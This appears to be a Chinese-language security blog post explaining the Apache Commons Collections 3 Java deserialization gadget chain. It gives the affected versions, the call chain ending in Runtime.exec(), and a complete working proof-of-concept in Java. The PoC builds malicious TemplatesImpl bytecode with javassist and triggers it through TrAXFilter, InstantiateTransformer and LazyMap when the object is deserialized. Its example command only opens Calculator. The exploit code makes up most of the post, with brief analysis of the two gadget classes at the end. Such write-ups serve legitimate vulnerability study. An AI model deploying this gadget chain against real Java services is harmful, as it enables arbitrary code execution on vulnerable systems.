


Apache-Commons-Collections 3
目录
CC3链大致上是CC1和CC2的缝合，中间一些细节有点不同（TrAXFilter，InstantiateTransformer）
LazyMap+TrAXFilter+InstantiateTransformer+TemplatesImpl
版本
commons-collections-3.1-3.2.1，JDK1.7
利用链
ObjectInputStream.readObject()
AnnotationInvocationHandler.readObject()
Map(Proxy).entrySet()
AnnotationInvocationHandler.invoke()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InstantiateTransformer.transform()
newInstance()
TrAXFilter#TrAXFilter()
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
TemplatesImpl.defineTransletClasses
newInstance()
Runtime.exec()
POC
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class Main {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "name");
setFieldValue(templates, "_class", null);
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
});
HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
handler_constructor.setAccessible(true);
InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class,map);
Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler);
Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
AnnotationInvocationHandler_Constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Override.class,proxy_map);
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc3"));
outputStream.writeObject(handler);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc3"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
Field field = null;
try {
field = clazz.getDeclaredField(fieldName);
field.setAccessible(true);
}
catch (NoSuchFieldException ex) {
if (clazz.getSuperclass() != null)
field = getField(clazz.getSuperclass(), fieldName);
}
return field;
}
}
可以发现是ChianedTransformer+TemplatesImpl+LazyMap 缝合，不过ChianedTransformer内部有点和CC链1、2不同.
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
});
我们可以发现是通过InstantiateTransformer 替代了InvokerTransformer，并且用到了TrAXFilter.class 这个类。
我们来分析一下这两个贵物。
TrAXFilter.class

十分明显，TrAXFilter的构造方法对传入的Templates对象进行了实例化处理，而TemplatesImpl是Templates的子类，于是乎我们可以传入一个TemplatesImpl对象，使该对象的newTransformer方法被调用，以此促成TemplatesImpl对象中_bytecodes中的字节码被实例化成一个恶意对象，并调用这个恶意对象的构造方法。
InstantiateTransformer

可以发现transformer方法中会获取传入对象的构造方法，并传入参数调用其构造方法。 我们这个地方传入TrAXFilter对象，并传入恶意的TemplatesImpl对象便可以在TrAXFilter调用构造方法时调用TemplatesImpl.newInstance 把恶意对象从字节码生成出来并调用恶意对象的构造方法。